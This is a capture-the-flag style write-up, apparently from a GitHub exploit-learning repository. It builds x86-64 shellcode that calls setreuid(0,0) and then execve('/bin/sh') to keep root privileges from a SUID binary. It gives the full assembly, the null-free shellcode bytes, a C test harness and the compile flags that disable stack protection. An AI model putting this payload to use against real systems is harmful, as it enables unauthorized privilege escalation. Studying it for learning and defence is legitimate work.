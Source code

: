 # Creating a reuid(0,0) execve("/bin/sh") shellcode

# Introduction
I was sitting the other day, struggling with getting a root shell on a challenge. The concept of the challenge was simple. You got SSH credentials and there was a binary file owned by root, with the SUID bit set.

If you just do an execve("/bin/sh") on this binary, your shell will just drop privileges and you will end up with a normal user shell.

Calling setuid(0) did absolutely nothing for me and I still ended up with a normal user shell.

Although this challenge wasn't quite intended to be solved by getting a root shell. I was determined to do so and found out that you can call execve on /bin/sh with the -p parameter. And I created an exploit that did exactly this.

After discussing my overly complicated exploit with a friend, it turned out that I had gotten the idea completely wrong.

To keep privileges in the shell you just need to make sure that the uid is set to 0 and the euid is set to 0.

I looked around on http://shell-storm.org/shellcode/ and realized that although there are shellcodes which call /bin/sh with setuid(0). There are none which call /bin/sh with both setuid(0) and seteuid(0). They do however exist for ash, bash etc..

So I decided that I would like to write my own

# Writing the shell code
I decided to write just the execve("/bin/sh") part first, as I have done this before.

This is what I ended up with:

```C
xor rax, rax //Empty rax register
add rax, 0x3b //Move in execve byte
xor rsi, rsi // empty rsi register
xor rdx,rdx //empty rdx register
mov rbx, 0x68732f6e69622f2f //move "//bin/sh" into rbx
shr rbx, 8 //Change "//bin/sh" to "/bin/sh"
push rbx //Push /bin/sh onto the stack
mov rdi, rsp // move the pointer to /bin/sh on the stack into rdi
syscall //Call it
```
I use https://defuse.ca/online-x86-assembler.htm#disassembly to turn my assembly into shellcode which gives me:
```
\x48\x31\xC0\x48\x83\xC0\x3B\x48\x31\xF6\x48\x31\xD2\x48\xBB\x2F\x2F\x62\x69\x6E\x2F\x73\x68\x48\xC1\xEB\x08\x53\x48\x89\xE7\x0F\x05
```
I got what I need to set the different registers to from the following syscall table: https://filippo.io/linux-syscall-table/

A couple of things to note about the shellcode:
1) I only push to the stack once. I like to push as little as possible to the stack, in case my stack pointer will be on top of my executable code (this can happen if you sigret for example)

2) I empty all the registers, even though it might be initialized to 0 when I jump on the stack. This makes the shellcode versatile and makes it able to be used for other exploits as well.

3) There are no null bytes in the shellcode. Again this makes it way more versatile as a lot of input functions read until they receive a null byte.

I then decided to test my shellcode. I didn't have a copy of the old binary file laying around so I decided to create a test binary which just executes my shellcode for me

I can not take credit for the testing code. The code is taken from https://gist.github.com/securitytube/5318838 where I've only done slight modifications:

```C
#include<stdio.h>
#include<string.h>


int main(void)
{
	unsigned char code[] = "\x48\x31\xC0\x48\x83\xC0\x3B\x48\x31\xF6\x48\x31\xD2\x48\xBB\x2F\x2F\x62\x69\x6E\x2F\x73\x68\x48\xC1\xEB\x08\x53\x48\x89\xE7\x0F\x05";
  printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}
```
Modifications are:

1) Moving code string inside the main loop to make sure it's on the stack instead of in a section for global variable in the compiled binary

2) Changing the char code to my own payload

I then compiled it with:
```
gcc shellcodetester.c -o test1 -fno-stack-protector -z execstack -no-pie
```
And ran the following linux commands on the compiled binary to give it suid bit and make it owned by root:

```bash
sudo chown 0:0 ./test1
sudo chmod u+s ./test1
```

Running the binary we get a shell but only with normal user privileges:

![shellrun1.png](https://github.com/Mymaqn/roadtopwn/blob/main/shellcode/Creating_reuid_execve_shellcode/shellrun1.png?raw=true)

Now that we have normal working shellcode time to use setuid(0) and seteuid(0)

Looking up the man page of seteuid you will see the following:

```
Under libc4, libc5 and glibc 2.0 seteuid(euid) is equivalent to setreuid(-1, euid) and hence may change the saved set-user-ID. Under glibc 2.1 and later it is equivalent to setresuid(-1, euid, -1) and hence does not change the saved set-user-ID. Analogous remarks hold for setegid(), with the difference that the change in implementation from setregid(-1, egid) to setresgid(-1, egid, -1) occurred in glibc 2.2 or 2.3 (dependeing on the hardware architecture).
```

This means that we do not have a specific syscall to seteuid but a syscall to setreuid(ruid,euid)

The good part about this is that setreuid also allows us to set the user id at the same time. So we only need to do one syscall for setting everything instead of two.

So all we need to do is call setreuid(0,0) since we want to set our user to be root.

Again I used the previously mentioned [site](https://defuse.ca/online-x86-assembler.htm#disassembly) for assembling my code and the [syscall](https://filippo.io/linux-syscall-table/) lookup table to see what values I should set the registers to.

```C
xor rax, rax //set rax to 0
add rax, 0x71 //setreuid byte
xor rdi, rdi //ruid
xor rsi, rsi //euid
syscall //call it reuid(0,0)
```

Then I smacked both of my codes together:
```C
xor rax, rax //set rax to 0
add rax, 0x71 //setreuid byte
xor rdi, rdi //ruid
xor rsi, rsi //euid
syscall //call it reuid(0,0)
xor rax, rax //Empty rax register
add rax, 0x3b //Move in execve byte
xor rsi, rsi // empty rsi register
xor rdx,rdx //empty rdx register
mov rbx, 0x68732f6e69622f2f //move "//bin/sh" into rbx
shr rbx, 8 //Change "//bin/sh" to "/bin/sh"
push rbx //Push /bin/sh onto the stack
mov rdi, rsp // move the pointer to /bin/sh on the stack into rdi
syscall //Call it execve("/bin/sh",0,0)
```

Assembled char code looks like this:
```
\x48\x31\xC0\x48\x83\xC0\x71\x48\x31\xFF\x48\x31\xF6\x0F\x05\x48\x31\xC0\x48\x83\xC0\x3B\x48\x31\xF6\x48\x31\xD2\x48\xBB\x2F\x2F\x62\x69\x6E\x2F\x73\x68\x48\xC1\xEB\x08\x53\x48\x89\xE7\x0F\x05
```

Running the shellcode tester with the newly generated char code then gives us a root shell:

![shellrun2.png](https://github.com/Mymaqn/roadtopwn/blob/main/shellcode/Creating_reuid_execve_shellcode/shellrun2.png?raw=true)

Bear in mind that I did not set the group id as it's not needed for the root privileges. But the group id can be set in the same manner as setreuid was, just using setregid instead.

Hope you learnt as much as I did from this :)

